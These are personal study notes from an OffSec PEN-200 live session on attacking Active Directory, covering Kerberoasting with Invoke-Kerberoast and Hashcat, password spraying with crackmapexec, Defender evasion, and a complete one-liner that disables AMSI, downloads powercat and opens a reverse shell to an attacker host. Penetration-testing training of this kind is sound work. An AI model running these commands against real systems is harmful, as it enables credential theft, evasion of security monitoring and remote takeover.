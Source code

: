 # OffSec Live: PEN-200

author:: Nathan Acks  
date:: 2022-08-26

## Active Directory Enumeration & Exploitation, Part 2

* `Get-DomainUsers -SPN` will list AD service accounts using `PowerView.ps1`.
* In AD, the domain controller will grant a service ticket for *any* service to *any* user. Access is enforced by the *service* machine.
* Since AD tickets are encrypted using account password hashes - so if weak passwords are chosen for service accounts, tickets can be cracked to retrieve service account passwords.
* There is an `Invoke-Kerberos.ps1` PowerShell module out there that does native kerberoasting from PowerShell. Output can be passed to Hashcat, among others. Be sure to set the `-Width` parameter (vixx recommends 8000) when using `Out-File` with this module, or this function won't output the entire ticket! - `Invoke-Kerberoast -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath "$FILE_PATH" -Width 8000`
* SSH port forwarding is actually using SOCKS5 under the hood. This is important to know when setting up tools like `proxychains`.
* There's a tool called `crackmapexec` that allows cracked passwords to be sprayed across an AD environment (available in the Kali repos). Since SMB shares are both common and often contain interesting files, this is a good service to try to gain (indiscriminate) access to. (Note that you *shouldn't* use password spraying to try to crack user passwords, as doing so will likely lead to account lockouts and subsequent alarms. Instead, use spraying to determine user access.) - `crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK -u $TARGER_USER -p $CRACKED_PASSWORD 2> /dev/null`
* Microsoft Defender now detects ImPacket PSEXEC and SMBEXEC execution attempts.
* The SCShell fileless lateral movement tool is generally *not* detected by Microsoft Defender (at least as of this course). It does require RPC to be available on the target, though this is common in AD environments.
* Powercat is a reimplementation of netcat in PowerShell. Helpful!
* A one-liner to bypass AMSI and fire up a PowerShell reverse shell using Powercat: `[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe`

### References

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Using PowerShell](../notes/powershell.md)
* [EmpireProject / Empire / module_source / credentials / Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
* [Kerberos](../notes/kerberos.md)
* [Using Hashcat](../notes/hashcat.md)
* [Mr-Un1k0d3r / SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
* [besimorhino / powercat](https://github.com/besimorhino/powercat)
